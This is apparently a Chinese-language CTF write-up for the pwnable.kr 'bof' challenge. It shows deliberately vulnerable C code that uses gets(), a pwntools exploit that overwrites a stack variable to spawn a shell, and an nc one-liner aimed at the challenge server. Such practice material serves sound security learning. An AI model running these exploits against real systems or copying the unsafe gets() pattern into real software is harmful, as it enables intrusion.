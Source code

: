 ```yaml
---
layout: post
title: "pwnable.kr fd"
date: 2018-05-19 
tag: pwn, Writeup, pwnable.kr
---
```


先看一下给的源码

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

大概的思路就是向overflowme进行输入时溢出将key覆盖成0xcafebabe就行了。

用ida观察，我们可以知道 key(a1)在 ebp+8h, overflowme(s)在ebp-2Ch,之间有52字节，最后再加上需要覆盖的4字节就OK了。

![img_1](/images/posts/pwnable.kr_bof/img_1.png)

下面给出exp

```python
from pwn import *

p = process("bof")
# p = remote('pwnable.kr',9000)

payload = 'a'*52 + '\xbe\xba\xfe\xca'

p.sendline(payload)

p.interactive()
```

![img_2](/images/posts/pwnable.kr_bof/img_2.png)

网上还看见一个更简单的`(python -c "print 'a'*52 + '\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000` 。

这里大家一定疑惑加`cat`干嘛。这里如果我们不加上cat那么nc在传完python的输出后就完成了这条命令，会直接结束这次会话。我们加上cat后nc的这个会话会永不结束，直到用户输入Ctrl+C。然后cat又比较特殊，它可以将用户输入原封不动返回并重定向给了nc。

![img_3](/images/posts/pwnable.kr_bof/img_3.png)